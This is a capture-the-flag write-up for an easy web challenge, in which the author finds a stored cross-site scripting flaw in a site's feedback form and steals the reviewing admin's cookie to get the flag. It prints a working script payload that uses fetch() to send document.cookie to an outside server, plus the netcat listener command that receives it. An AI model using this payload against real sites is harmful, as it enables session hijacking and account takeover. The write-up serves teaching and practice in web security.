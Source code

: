 # NGPEW Feedback Form
# Difficulty: Easy

Prompt: I found this feedback form on NGPEW's website, but I'm not convinced that their admins are actually
reading the feedback. In case they are, can you steal their cookies? I have a feeling there's something 
hidden there.

From the prompt, it seems like we need to steal the admin's cookies somehow. By using the feedback form, we
notice that the form seems to wait a few seconds, then responds with "An admin has reviewed your feedback."
In addition, the website gives us a link to see the admin view of our feedback.

Let's try putting in an HTML tag as our payload and looking at the admin view: 
`<b>test</b>`

We see that the b tag was not filtered and is shown directly to the admin. This indicates that there is a 
Cross-Site Scripting (XSS) vulnerability. 

We can leak the admin's cookies by writing some JavaScript that sends `document.cookies` to some remote 
website. For example, I can log onto `skipper.cs.utexas.edu` and run `nc -l 3000`. This opens a TCP 
listener on port 3000, which I can then send an HTTP request to, since HTTP runs on TCP. Once I have this
listener open, I can use the following payload to get JavaScript running on the admin view and leak the 
cookies to my remote server through an HTTP request:  
```<script>fetch('http://chicken-avocado-wrap.cs.utexas.edu:3000/' + document.cookie)</script>```

Finally, the flag appears in my `nc` console. 